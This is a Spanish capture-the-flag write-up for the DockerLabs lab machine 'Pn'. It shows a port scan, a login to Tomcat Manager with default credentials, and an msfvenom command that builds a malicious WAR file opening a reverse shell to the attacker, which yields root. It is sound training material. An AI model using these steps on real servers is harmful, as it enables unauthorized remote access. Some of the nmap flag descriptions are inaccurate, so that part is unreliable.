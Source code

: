 # -Pn
**Herramientas y recursos usados**
- nmap
- gobuster
- knock
- hydra

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Los40ladrones`

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_1.jpg)   

Tenemos solamente un puerto abierto, el 8080, donde podemos ver que corre un Tomcat.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_2.jpg)     

Podemos intentar a acceder con las credenciales por defecto.  
Miramos en Google cuales suelen ser y probamos si unas de ellas funciona.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_3.jpg)    

Vemos que hay una combinación que sí que funciona!  
Si intentamos acceder a través de Manager App y porporcionamos como usuario **tomcat** y como contraseña **s3cr3t** ya podemos acceder.    

Ahora lo que haremos será crear un fichero .war maliciososo con la herramienta **msfvenom**.  
Utilizaremos el comando:  

`sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=6969 -f war -o rev.war`  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_4.jpg)     

Una vez creado lo subiremos a través del menu **WAR file to deploy**.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_5.jpg)   

Por último nos pondremos a la escucha en la nuestra maquina atacante y abriremos el fichero que hemos cargado.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_6.jpg)   

Y listo!  
Ya somos root!  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/pn/Pn_7.jpg) 



